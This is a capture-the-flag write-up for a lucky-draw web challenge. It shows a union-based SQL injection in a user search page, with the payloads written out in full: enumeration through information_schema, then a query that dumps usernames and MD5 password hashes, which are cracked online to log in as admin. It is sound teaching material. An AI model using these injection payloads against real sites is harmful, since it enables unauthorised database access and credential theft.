 Challenge description:
==
There's a lucky draw at http://web.spro.ink:3007 and the top prize for winning it is a world tour for 2 to anywhere! Too bad I have only two valid coupons :(

---
At the website, there is a login page and a search user page.

After trying common sql on the login page with no interesting response, we move on to __search user page__ which had already loaded 2 columns of Username, Nickname for everyone to see.

---
First observation @ http://web.spro.ink:3008/search.php

Results:
|Username|	Nickname|
|---|---|
|admin	|	superuser|
|xinan	|	the guy|
|wenyan	|	the girl|
|potato	|	the food|
|sadhi	|	the friend|
|john	|	the stranger|
	
---
Test for SQL vulnerability
==
We try to see if there are any response when given an invalid data like a single quote. 

Results
>	You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''''' at line 1

When we see the error message, we can conclude that this input form is vulnerable to sql injection.

---
Constructing injection
==
From our very 1st observation, the 2 preloaded columns of Username and Nickname implied that a SELECT statement is inside.

My initial guess:	
```SQL
SELECT Username, Nickname from XXXX where Username='<input name here>'
```

We can make use of the ```UNION``` command to add another ```SELECT``` statements with same number of columns behind the guess.

There is also an interesting table known as ```information_schema``` in MySQL that can help provide us the Table name and its columns!

We proceed to inject the follow:
```sql
' UNION SELECT table_name, column_name FROM information_schema.columns WHERE     '1'='1
```
    
Explanation:
- The first single quote terminate the string to be read by acting as a closing quote. Notice that the very last digit 1
do not have a closing quote? That's because we are making use of the closing quote within the hidden SQL command.

- ```UNION``` is used to exploit the fact we are aware of the hiden ```SELECT``` using 2 columns so we can combine with our own ```SELECT``` statement with 2 other interesting columns.

- where ```'1'='1'``` will always validate true so it will spew out all the table names and column names.

Results:

|Username	    |	Nickname|
|---|---|
|CHARACTER_SETS	|	CHARACTER_SET_NAME|
|CHARACTER_SETS	|	DEFAULT_COLLATE_NAME|
|CHARACTER_SETS	|	DESCRIPTION|
|CHARACTER_SETS	|	MAXLEN|
|COLLATIONS	    |	COLLATION_NAME|
|COLLATIONS	    |	CHARACTER_SET_NAME|
|COLLATIONS	    |	ID|
|COLLATIONS	    |	IS_DEFAULT|
|COLLATIONS	    |	IS_COMPILED|
|COLLATIONS	    |	SORTLEN|
|...|...|
|...|...|
|...|...|
|users|	        	id|
|users|	        	username|
|users|	        	password|
|users|	        	nickname|

---
Fine tuning
==
After knowing the Table name and column names, we can generate another SQL injection to get the credentials of admin
```sql
' UNION SELECT username, password FROM users WHERE '1'='1
``` 
Result:

|Username|	Nickname|
|---|---|
|admin|		79fff4b82b55a67cf96aa059dc1aa956|
|xinan|		7d493220036eb672a9e2d949920be704|
|wenyan|		7d493220036eb672a9e2d949920be704|
|potato|		7d493220036eb672a9e2d949920be704|
|sadhi|		7d493220036eb672a9e2d949920be704|
|john|		7d493220036eb672a9e2d949920be704|

---
Crack hash
==
We can crack the hash password @ https://crackstation.net/

The md5 hash password: ```clearwat```

Go login as admin with the password and we got the flag! :D 

---
flag{sql1_n3v3r_been_s0_eZ}

